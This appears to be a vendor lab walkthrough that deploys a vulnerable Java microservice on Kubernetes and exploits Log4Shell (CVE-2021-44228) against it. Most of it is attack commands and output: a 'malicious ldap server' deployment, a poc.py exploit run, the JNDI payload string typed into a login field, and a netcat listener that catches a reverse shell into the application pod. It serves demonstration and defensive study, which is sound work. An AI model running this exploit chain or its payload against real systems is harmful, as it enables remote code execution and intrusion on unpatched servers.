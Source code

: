 ### Deploy Log4j sample application

Deploying a sample Java microservice on namespace java-ms

```
kubectl create ns java-ms
```

```
kubectl apply -f https://raw.githubusercontent.com/accuknox/samples/main/log4j-demo/k8s.yaml -n java-ms  
```

Get external IP to surf the application:

```
kubectl -n java-ms get service java-ms-svc | awk '{print $4}'
```

Make sure the application is up and running.
![](https://i.imgur.com/615Fooi.png)

### Exploiting Log4j vulnerability

**Step 1:** Deploying malicious ldap server on namespace java-ms

```
kubectl apply -f https://raw.githubusercontent.com/accuknox/samples/main/log4j-demo/k8s-ldap.yaml -n java-ms
```

Check pods and services running

```
kubectl get po,svc -n java-ms
```

Output:

```
NAME                           READY   STATUS    RESTARTS   AGE
pod/java-ms-56b9c47579-8k2xc   1/1     Running   0          6m48s
pod/nc-pod-679c75d5b7-hcwh8    1/1     Running   0          104s

NAME                  TYPE           CLUSTER-IP     EXTERNAL-IP    PORT(S)                                        AGE
service/java-ms-svc   LoadBalancer   10.88.9.132    34.136.7.141   80:30753/TCP                                   7m16s
service/nc-svc        LoadBalancer   10.88.13.152   34.68.190.28   4444:31515/TCP,8000:31247/TCP,1389:31121/TCP   2m28s
```

**Step 2:** Execute into the LDAP server pod

```
kubectl exec -it nc-pod-679c75d5b7-hcwh8 -n java-ms -- bash
```

Note: Change nc-pod-679c75d5b7-hcwh8 to your pod name.

**Step 3:** Run command inside the pod

Note: userip → external IP of the nc-svc

```
python3 poc.py --userip 34.68.190.28 --webport 8000 --lport 4444
```

Note: Replace 34.68.190.28 with your external IP of the service nc-svc

Output:

```
root@nc-pod-679c75d5b7-hcwh8:/poc# python3 poc.py --userip 34.68.190.28 --webport 8000 --lport 4444

[!] CVE: CVE-2021-44228

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://34.68.190.28:1389/a}
[+] Starting Webserver on port 8000 http://0.0.0.0:8000

Listening on 0.0.0.0:1389
```

**Step 4:** Open another terminal and execute into the netcat pod nc-pod-679c75d5b7-4gkjl to listen for reverse shell connection

Note: Here we are using the same pod for the LDAP server and netcat

```
kubectl exec -it nc-pod-679c75d5b7-hcwh8 -n java-ms -- bash
```

Run the below command inside the pod nc-pod-679c75d5b7-4gkjl to listen for reverse shell

```
nc -lvnp 4444
```

Output:

```
root@nc-pod-679c75d5b7-4gkjl:/poc# nc -lvnp 4444
Listening on 0.0.0.0 4444
```

**Step 5:** Get external IP to surf the application:

```
kubectl -n java-ms get service java-ms-svc | awk '{print $4}'
```

Type ${jndi:ldap://34.68.190.28:1389/a} in username field and click Login

Note: 34.68.190.28 replace with your nc-svc external IP

**Step 6:** Check netcat pod `nc-pod-679c75d5b7-4gkjl`. You will get a reverse shell to java pod.

Note: Try hostname command, you can see hostname is the name of the java microservice pod.

Now we got the reverse shell to the java microservice pod from the netcat pod using log4j vulnerability.


